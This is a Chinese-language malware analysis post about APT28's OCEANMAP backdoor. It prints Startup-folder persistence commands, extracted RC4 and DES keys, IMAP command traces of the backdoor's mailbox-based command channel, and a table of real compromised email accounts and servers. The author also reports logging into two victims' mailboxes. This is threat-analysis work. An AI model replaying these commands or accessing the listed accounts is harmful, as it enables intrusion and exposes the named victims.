# 新手法！APT28 组织最新后门内置大量被控邮箱（可成功登录）用于窃取数据 - 先知社区

## 概述

近期，笔者在浏览网络中威胁情报信息的时候，发现美国 securityscorecard 安全公司于 2024 年 3 月 5 日发布了一篇《A technical analysis of the APT28’s backdoor called OCEANMAP》白皮书报告，此报告对 APT28 组织使用的 OCEANMAP 后门进行了详细介绍。

整篇报告的内容不多，全是对 OCEANMAP 后门功能的描述，笔者很快就浏览完了。浏览完后，笔者也是对 OCEANMAP 后门产生了一定的兴趣，结合网络中的其他调研信息，也同时让笔者理解了美国 securityscorecard 安全公司为什么会专门发布一篇白皮书对 OCEANMAP 后门进行研究：

-   其实根据样本分析结果，此OCEANMAP后门的整体功能不是特别的复杂，而且其是由C#语言编写的，分析难度也不是很高；
-   根据网络调研信息，OCEANMAP 后门被乌克兰国家计算机应急响应中心首次于 2023 年 12 月 28 日曝光，算是一款比较新的后门；
-   根据网络调研信息，OCEANMAP 后门归属于 APT28 组织；
    
-   根据样本分析结果，此 OCEANMAP 后门的恶意行为利用方式与我们常见的木马利用方式有所不同，此 OCEANMAP 后门通过邮件接收远控指令及返回远程指令执行结果；
    

通过网络调研，笔者将网络中能下载的所有曝光的 OCEANMAP 后门进行了梳理对比，情况如下：

| Hash | 编译时间（伪造） | 支持命令 | 命名空间名 | 加解密算法 |
| --- | --- | --- | --- | --- |
| 2b8047743f3c70c8be106bb795ed6e9d | 2042-04-21 07:16:44 | change\_ | imap\_chanel | RC4+Base64 |
| a5f3883d1f3d0072d316df9411694fb2 | 2042-04-21 07:16:44 | change\_ | imap\_chanel | RC4+Base64 |
| 96bb5d48c7b991175ac38f8699ed4012 | 2042-04-21 07:16:44 | change\_ | imap\_chanel | RC4+Base64 |
| 6d8ec301bff06bc347540f286587629e | 2042-04-21 07:16:44 | change\_ | imap\_chanel | RC4+Base64 |
| bc2866c331d58d255b4e7e95db928a43 | 2063-06-19 17:34:05 |     | imap\_chanel | RC4+Base64 |
| d256798ac5b5b60a31d52b8e8281bc77 | 2086-10-11 10:33:36 | change\_ | imap\_chanel | RC4+Base64 |
| 0fd132d93fd85b4668a97295cc6c7737 | 2086-10-11 10:33:36 | change\_ | imap\_chanel | RC4+Base64 |
| b711ade716c30f83d7631ac00bf754dd | 2086-10-11 10:33:36 | change\_ | imap\_chanel | RC4+Base64 |
| 0a0355d5fad8c5437ea79f56db152274 | 2070-11-24 12:28:05 |     | sxd | DES+Base64 |
| 5db75e816b4cef5cc457f0c9e3fc4100 | 2068-05-18 16:52:37 | changesecond、newtime | VMSearch | Base64 |

为便于对比分析，笔者基于支持命令及加解密算法将此系列样本分为了三个版本：

-   第一版本：使用的加解密算法为 RC4+Base64
-   第二版本：使用的加解密算法为 DES+Base64
-   第三版本：使用的加解密算法为 Base64

相关网络报道截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191654-06de5112-e519-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191717-14a5e882-e519-1.png)

## OCEANMAP 后门分析

### 移动自身至启动目录

通过分析，笔者发现除第三版本样本外，其余样本的自启动方式均相同，均是通过将自身移动至启动目录中以实现自启动功能。

相关 cmd 命令如下：

```plain
move /Y email.exe \"C:\\Users\\%username%\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\email.exe\"

move /Y igmtSX.exe \"%appdata%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\igmtSX.exe\"
```

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318185831-75569dc8-e516-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318185851-81160bc6-e516-1.png)

### 启动目录中创建快捷方式

通过对第三版本样本进行分析，发现此样本运行后，将执行一系列初始化操作：

-   判断系统中是否已运行另一个同名进程，若是，则终止同名进程；
-   判断文件名中是否包含“\_tmp.exe”字符串，若是，则重命名文件并执行；

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318185908-8b56fbae-e516-1.png)

初始化操作代码执行完后，样本将在启动目录中创建快捷方式，以实现自身自启动操作，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318185926-95dbdf90-e516-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318185942-9f68a386-e516-1.png)

### 内置邮箱账户信息

通过分析，发现在 OCEANMAP 后门中，内置了邮箱账户信息，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190002-ab7a688a-e516-1.png)

### 生成用户 ID

通过分析，发现 OCEANMAP 后门运行后，将根据主机信息（主机名、用户名、系统版本）生成用户 ID，此用户 ID 将作为接收特定远控指令的标识，因此其将被作为邮件主题添加至邮件中。

第一二版本样本代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190017-b44e1290-e516-1.png)

第三版本样本代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190035-bf35e67e-e516-1.png)

### 收件箱添加邮件 - 返回初始命令执行结果

通过分析，发现 OCEANMAP 后门中内置了初始命令，后门运行后，将以邮件形式返回初始命令执行结果，并以此作为后门上线信息，相关初始命令梳理如下：

| Hash | 内置初始命令 |
| --- | --- |
| 5db75e816b4cef5cc457f0c9e3fc4100 | dir |
| 2b8047743f3c70c8be106bb795ed6e9d | qwinsta |
| a5f3883d1f3d0072d316df9411694fb2 | qwinsta |
| bc2866c331d58d255b4e7e95db928a43 | dir |
| d256798ac5b5b60a31d52b8e8281bc77 | dir |
| 0fd132d93fd85b4668a97295cc6c7737 | dir |
| 96bb5d48c7b991175ac38f8699ed4012 | qwinsta |
| 0a0355d5fad8c5437ea79f56db152274 | dir |
| 6d8ec301bff06bc347540f286587629e | qwinsta |
| b711ade716c30f83d7631ac00bf754dd | dir |

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190053-c9ee4c00-e516-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190120-da0c3476-e516-1.png)

### 提取草稿箱内容 - 接收远控指令

通过分析，发现当 OCEANMAP 后门向收件箱添加邮件后，下一步则将从邮箱草稿箱中提取远控指令命令，提取远控指令的方式为：

-   搜索邮件主题内容中包含对应用户 ID 的邮件；
-   提取对应邮件内容并对其进行解密（RC4+Base64、DES+Base64、Base64）；

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190141-e6d27742-e516-1.png)

### 第一版样本加解密算法-RC4+Base64

通过分析，发现 OCEANMAP 后门第一版样本使用的邮件内容加解密算法为 RC4+Base64，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190158-f081263a-e516-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190215-fb12763a-e516-1.png)

第一版样本向收件箱添加邮件及从草稿箱提取远控指令时，均会调用 RC4+Base64 算法对邮件内容进行加解密。

向收件箱添加邮件的代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190232-04f54010-e517-1.png)

提取远控指令内容的代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190250-0fcf3e6e-e517-1.png)

提取 RC4 密钥如下：

```plain
8C18634C6374CE4E75F155F806808F0532FEF8A8472DB2543390A3A48CB69B7CB143BCE139919D33C209220170F0D98FDE4FA497F668EC180AE29F13DBECE33E97D5E8438619CE70283DDC0A392A27193A043E026FC45EB39A44F3526F80F720F3966AA171BE577483BE7D1CF60B50CC96BA56FEE54909A319E3C945B342B89EADA490EA8631908F2E2871EF556BF121E61DE9351E41D19D24714BD071AA3E22CEE916D08459D9071670B61603128A5C2D5781086DB11E5580CC55CBEE716791C36986B91086305FA4E47D8EE370E8F1722CA8CDA944ED8E2550F29CA285EC63CD893A123101CB927CE9B79647AE331726066D6264280C9A4AE540C279986669
```

解密效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190317-1ff8b1f8-e517-1.png)

### 第二版样本加解密算法-DES+Base64

通过分析，发现 OCEANMAP 后门第二版样本使用的邮件内容加解密算法为 DES+Base64，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190338-2c505186-e517-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190359-389fef3c-e517-1.png)

第二版样本向收件箱添加邮件及从草稿箱提取远控指令时，均会调用 DES+Base64 算法对邮件内容进行加解密。

向收件箱添加邮件的代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190420-453bd3c8-e517-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190441-51a833fe-e517-1.png)

提取远控指令内容的代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190458-5c33cde2-e517-1.png)

提取 DES-CBC 密钥如下：

```plain
key：
4862714339216D56
IV：
1C0B330C201A0729
```

解密效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190517-6708572e-e517-1.png)

### 第三版样本加解密算法-Base64

通过分析，发现 OCEANMAP 后门第三版样本向收件箱添加邮件时，并未使用加密算法对其邮件内容进行加密，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190535-71d4f540-e517-1.png)

从邮件内容中解密提取远控指令解密算法为 Base64，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190559-8045d96e-e517-1.png)

### 远控指令

通过分析，梳理发现 OCEANMAP 后门系列样本中目前共存在两个远控指令：

-   changesecond：用于修改内置的邮箱账户信息（备注：第一版本样本中内置的 change\_指令功能与 changesecond 指令功能相同）
-   newtime：用于修改内置的程序休眠时间

changesecond 指令代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190618-8bdb3742-e517-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190639-980445ae-e517-1.png)

newtime 指令代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190657-a2f55b56-e517-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190715-adb2d9c4-e517-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190736-b9e749c8-e517-1.png)

## OCEANMAP 后门通信模型分析

### 模拟构建邮服

为了能够详细的对 OCEANMAP 后门通信模型进行研究分析，笔者准备尝试构建一套模拟的邮件服务器，虽然构建邮件服务器的过程并不是很难，但是笔者在利用模拟的邮件服务器进行模拟复现的时候，却遇到了一些小曲折，因此，笔者还是决定将相关曲折历程简单写下来：

-   阶段一：起初，为了能够快速的模拟构建邮件服务器，笔者选择了 windows 系统下的 hMailServer 软件进行构建
    -   问题：实际模拟复现的时候，笔者发现 hMailServer 软件构建的邮件服务器无法使用 WEB 方式访问，因此只能使用 foxmail 等邮件客户端进行访问，但使用 foxmail 等邮件客户端进行写草稿的时候，**草稿箱内容不会保存至邮件服务器中**（使用 foxmail 保存草稿、退出邮箱账号后，再次登录邮箱账户，发现没有草稿内容）。
-   阶段二：笔者推测支持 WEB 方式访问的邮件服务器才支持将草稿内容保存至邮件服务器中，因此，笔者又选择了 windows 系统下的 MailEnable 软件进行构建
    -   问题：实际模拟复现的时候，笔者发现 MailEnable 软件构建的邮件服务器可以使用 WEB 方式访问，但是却**不能响应 OCEANMAP 后门向收件箱添加邮件的指令**。
-   阶段三：笔者选择了 hmailserver+phpstudy+roundcube 的方式构建邮件服务器，参考网页：`[blog.csdn.net/ljh_mm/article/details/131221407](https://blog.csdn.net/ljh_mm/article/details/131221407)`
    -   问题：实际模拟复现的时候，笔者发现邮件服务器可以使用 WEB 方式访问，也能够成功响应 OCEANMAP 后门向收件箱添加邮件的指令，但是却**不能响应 OCEANMAP 后门从草稿箱提取邮件内容的指令**。
    -   由于笔者暂未进一步进行模拟构建邮件服务器，因此也不清楚具体是什么导致不能响应 OCEANMAP 后门从草稿箱提取邮件内容的指令，结合实际被控邮箱的邮件服务器使用的有 Linux 系统，推测 Linux 环境下的邮件服务器可正常响应 OCEANMAP 后门行为。

阶段二中“不能响应 OCEANMAP 后门向收件箱添加邮件的指令”截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190758-c72ec520-e517-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190814-d0e7a51e-e517-1.png)

阶段三中第一版样本添加的邮件内容截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190833-dc53d1b6-e517-1.png)

阶段三中第二版样本添加的邮件内容截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190852-e791210a-e517-1.png)

阶段三中第三版样本添加的邮件内容截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190908-f0f8dc88-e517-1.png)

阶段三中“不能响应 OCEANMAP 后门从草稿箱提取邮件内容的指令”相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190928-fccf1c02-e517-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318190947-0873e060-e518-1.png)

### 通信模型分析

基于模拟构建的邮件服务器进行模拟通信，梳理此系列样本的通信模型如下：

#### 第一版样本

第一版样本 IMAP 协议指令内容如下：

```plain
向收件箱添加邮件的指令
$ LOGIN test1@xx.com 123456
$ APPEND Inbox {772}
From: admin
Subject: 2024/3/17 12:58:36_report_V0lOLUpNS0pFTUpDNE9UX2FkbWluX01pY3Jvc29mdCBXaW5kb3dzIE5UIDYuMS43NjAxIFNlcnZpY2UgUGFjayAx

nnySSzuwWyaNmXxX1Gkrt3X28lNAgAt+UmEiAOnQKa9MRe09/DQCtDmRRHbeYh+Ba7ORvWLRFRMNt5lEO6+xL4a68e75iMZmyMepDYGSr5uzY1M+qXy3QHjr9Rd+aVm81Lfg0mH22eJTzDg4ksyt594acm8znq9pxZgw1kWchJQDrJTOfdAf2MmDBH9rZmIfdqeLXCKPWTwupDrAMcLqR8DKYimwnpJVApAgZpJY1XnDJpTUBIWfZQrntE2zOhfnlKhvgCh/L6aB/DxiZdAerHCC9zhs0cBC0EkTITx+nIDZ9jjf9K2zsFwiULF0hfHHSpoVIJ6Tri9b51h5pXQjPm2GXsl8GRmSZ3dUPeY9dmhCTTjvyvFsrz1ekHH79fRpXoP2ulacyGDM0b3cpr9VWWt9DCoWf4w/P58XghVcR/yUcTF9byKideRmEWfU8GWur/kZsowf1L2rj+zDVuUtvDmILa9ku9t7SHDR3N0RntH51YHntO/CFnf6q1dSU9QMUfxeVvzhOlS/4j5o97WcmJG8cTeZujAcSimQGASl5eJEbcqW1xfhi4x4k0HN4mdvg59ZE7jmeh1SkOGEaPEqEfRjb59dyisIO2XQqxHBh3vK/pZxVzw8og==

从草稿箱提取邮件内容的指令
$ LOGIN test1@xx.com 123456
$ SELECT Drafts
$ UID SEARCH subject "V0lOLUpNS0pFTUpDNE9UX2FkbWluX01pY3Jvc29mdCBXaW5kb3dzIE5UIDYuMS43NjAxIFNlcnZpY2UgUGFjayAx"
```

第一版样本通信数据包截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191005-12d74254-e518-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191023-1d96db1e-e518-1.png)

#### 第二版样本

第二版样本 IMAP 协议指令内容如下：

```plain
向收件箱添加邮件的指令
$ LOGIN test1@xx.com 123456
$ APPEND INBOX {530}
From: n_admin
Subject: a___2024/3/17 13:03:40_report_V0lOLUpNS0pFTUpDNE9UX2FkbWluX01pY3Jvc29mdCBXaW5kb3dzIE5UIDYuMS43NjAxIFNlcnZpY2UgUGFjayAx

YHteuYKpKHFj0s9+zt/OpjBQgSI5WmpnroYl5h7edCvWXfKmfymVBIKqAff1sFm7bEbg4KMx7w52LCAz8YpQCV6sJmX+xmSelt7tG8gPfIU0cFjEE7bN7gjrKi54Xej4ja48PvM6QF9DWCUyYNYyNXfiPK/I1sD7FbngxWfmPnP0WMVAFp1a5rqpL1XVF2z6fBEADFGkt/P8oFihnORHpCmAF3ssY6wC+z/qxobiGLFdRpbGjVxd/IGkQ6lwZZ5+J5glIeGumAU/PW6y76Pif5IyvuyvrfoBATA8D0bqVQV301aZ/F6xD3JW0Rth3O9V7yOBpG4UuDDyrMOpIW/CPFkIXE417lJ2QbEoFrdTcavSmJevEbajTeaNRvabbw37
$ APPEND INBOX {2090}
From: n_admin
Subject: a___2024/3/17 13:03:40_report_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

从草稿箱提取邮件内容的指令
$ LOGIN test1@xx.com 123456
$ SELECT Drafts
$ UID SEARCH subject "V0lOLUpNS0pFTUpDNE9UX2FkbWluX01pY3Jvc29mdCBXaW5kb3dzIE5UIDYuMS43NjAxIFNlcnZpY2UgUGFjayAx"
```

第二版样本通信数据包截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191043-29beb2f4-e518-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191104-360bcb82-e518-1.png)

#### 第三版样本

第三版样本 IMAP 协议指令内容如下：

```plain
向收件箱添加邮件的指令
$ LOGIN test1@xx.com 123456
$ APPEND INBOX {686}
From: U_admin
Subject:2024/3/17 12:40:30_report_V0lOLUpNS0pFTUpDNE9UPT1hZG1pbj09TWljcm9zb2Z0IFdpbmRvd3MgTlQgNi4xLjc2MDEgU2VydmljZSBQYWNr

Microsoft Windows [?? 6.1.7601]
??????? (c) 2009 Microsoft Corporation???????????????

C:\Users\admin\Desktop\22>dir
 ?????? C ???????????
 ?????????? DEA8-B705

 C:\Users\admin\Desktop\22 ????

2024/03/17  20:36    <DIR>          .
2024/03/17  20:36    <DIR>          ..
2024/03/17  20:37            24,576 222
               1 ?????         24,576 ???
               2 ???? 47,767,097,344 ???????

C:\Users\admin\Desktop\22>

newtime1:0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000

从草稿箱提取邮件内容的指令
$ LOGIN test1@xx.com 123456
$ SELECT INBOX.Drafts
$ UID SEARCH subject "V0lOLUpNS0pFTUpDNE9UPT1hZG1pbj09TWljcm9zb2Z0IFdpbmRvd3MgTlQgNi4xLjc2MDEgU2VydmljZSBQYWNr"
$ UID FETCH folder BODY.PEEK[text]
$ UID STORE folder +FLAGS (\Deleted)
$ EXPUNGE
$ UID FETCH selected. BODY.PEEK[text]
$ UID STORE selected. +FLAGS (\Deleted)
$ EXPUNGE
```

第三版样本通信数据包截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191129-450a02ac-e518-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191150-5174b1a4-e518-1.png)

## 被控邮箱梳理

通过分析，对搜集的 OCEANMAP 后门样本中内置的被控邮箱进行梳理，提取了 8 个邮件服务器地址，13 个被控邮箱账户密码，相关梳理信息如下：

| 邮件服务器 | 邮箱  | hash |
| --- | --- | --- |
| 95.211.60.177 | `a_alqenaei@ctc.gov.kw` | 2b8047743f3c70c8be106bb795ed6e9d |
|     | `a_alqenaei@ctc.gov.kw` | 0a0355d5fad8c5437ea79f56db152274 |
| mail.assarain.com | `k.alshukairi@assarain.com` | 2b8047743f3c70c8be106bb795ed6e9d |
|     | `sasi.wasc@assarain.com` | 96bb5d48c7b991175ac38f8699ed4012 |
|     | `ggm@assarain.com` | 96bb5d48c7b991175ac38f8699ed4012 |
|     | `suresh.har@assarain.com` | 6d8ec301bff06bc347540f286587629e |
|     | `jayasankar.mcp@assarain.com` | 6d8ec301bff06bc347540f286587629e |
| 195.229.241.219 | `peter.williams@adu.ac.ae` | a5f3883d1f3d0072d316df9411694fb2 |
|     | `peter.williams@adu.ac.ae` | 0fd132d93fd85b4668a97295cc6c7737 |
|     | `peter.williams@adu.ac.ae` | 0a0355d5fad8c5437ea79f56db152274 |
| 213.202.212.220 | `submission@universalexpress.com.pk` | a5f3883d1f3d0072d316df9411694fb2 |
|     | `submission@universalexpress.com.pk` | 0fd132d93fd85b4668a97295cc6c7737 |
| 64.90.62.162 | `tickets_finance@riyadhpe.com` | bc2866c331d58d255b4e7e95db928a43 |
|     | `rype-fb@riyadhpe.com` | d256798ac5b5b60a31d52b8e8281bc77 |
|     | `rype-fb@riyadhpe.com` | b711ade716c30f83d7631ac00bf754dd |
| mail.afcoop.ae | project@afcoop.ae | d256798ac5b5b60a31d52b8e8281bc77 |
|     | project@afcoop.ae | b711ade716c30f83d7631ac00bf754dd |
| 74.124.219.71 | `jrb@bahouholdings.com` | 5db75e816b4cef5cc457f0c9e3fc4100 |
| webmail.facadesolutionsuae.com | `qasim.m@facadesolutionsuae.com` | 5db75e816b4cef5cc457f0c9e3fc4100 |

### 登录被控邮箱

使用安全网络尝试登录被控邮箱，发现可成功登录，详细情况如下：

`jrb@bahouholdings.com`邮箱登录截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191216-61261070-e518-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191234-6bd9efe6-e518-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191255-787c7cfa-e518-1.png)

`qasim.m@facadesolutionsuae.com`邮箱登录截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191314-83d2e59e-e518-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191333-8f19576c-e518-1.png)

### 邮服被控原理推测

通过分析，笔者发现可成功登录的多个邮箱服务访问页面相同，进一步对比分析，笔者发现其页面结构与笔者模拟构建的邮件服务器页面也比较相同，因此，笔者就推测攻击者是否批量获取了使用相同 Web 邮件客户端的邮件服务器：

-   笔者模拟构建的邮件服务器使用的是 roundcube 邮件客户端
-   进一步对比分析，发现多个被控邮箱的邮件服务器确实是使用的 roundcube 邮件客户端

相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191352-9a6ec746-e518-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191408-a3d0f67e-e518-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240318191423-acbbab12-e518-1.png)
